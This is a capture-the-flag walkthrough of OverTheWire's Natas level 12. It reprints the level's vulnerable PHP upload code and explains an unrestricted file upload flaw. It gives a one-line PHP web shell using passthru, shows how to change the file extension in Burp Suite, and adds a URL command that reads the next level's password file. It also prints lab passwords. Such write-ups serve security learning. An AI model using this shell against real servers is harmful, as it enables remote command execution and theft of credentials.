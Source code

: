 __Natas :: Level 12__
================


_Patrick Ledzian_ | _Sunday, January 17th, 2016_ 


> There is no information for this level, intentionally.


----------

Start by using a web browser to navigate to the website `http://natas12.natas.labs.overthewire.org/`

```
Login: natas12

Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

```

Open the web page and you will see a file upload.

This problem has to do with [Unrestricted File Upload]

Open the html source and you will see how the web server handles an uploaded file.

```

<? 

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";    

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?> 
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<? } ?> 

```

You can see that the `genRandomString()` function creates a random alphanumeric string of 10 characters

This is used with the `makeRandomPath($dir, $fn)` function to create a path with a random filename and extension .jpg

The .jpg extension is specified after the php code in html (outside of <? ?>), this will have to be edited in burp to produce .php files

If you don't recognize some of the syntax in the source code, look it up! Learning your way around PHP is important for web hacking

This following infographic from RaiderSec shows how information flows in this problem (allows us to figure out what to manipulate)

![Image Broke](edit1.png)

Now we need to make a php script to upload that will give us a shell on the web server

We can do this by creating a file that will pass our commands (passed in the url) to the web server, the output will be on the webpage

This can be done quick and dirty in php with the function passthu()

```

<?
passthru($_GET["cmd"])
?>

```

The $_GET[] command will take user inputs and pass them to the web server, "cmd" is a variable, it could be anything.

We then set up burp suite to listen on the webpage to change the file extension

![Image Broke](edit2.png)

Change the file extension from .jpg to .php and foward the request

The webpage will give you the path to your newly uploaded file, right click and copy the link

![Image Broke](edit3.png)

In a new tab paste the URL and append `?cmd=cat /etc/natas_webpass/natas13`

The ? indicates the start of the variables being passed by the [GET] command

Because the script we wrote passes commands to the web server we want to run shell commands on it

`http://natas12.natas.labs.overthewire.org/upload/93gae88kt3.php?cmd=cat%20/etc/natas_webpass/natas13`



The password for natas13 is jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY





[Unrestricted File Upload]: https://www.owasp.org/index.php/Unrestricted_File_Upload
[GET]: http://www.tutorialspoint.com/php/php_get_post.htm
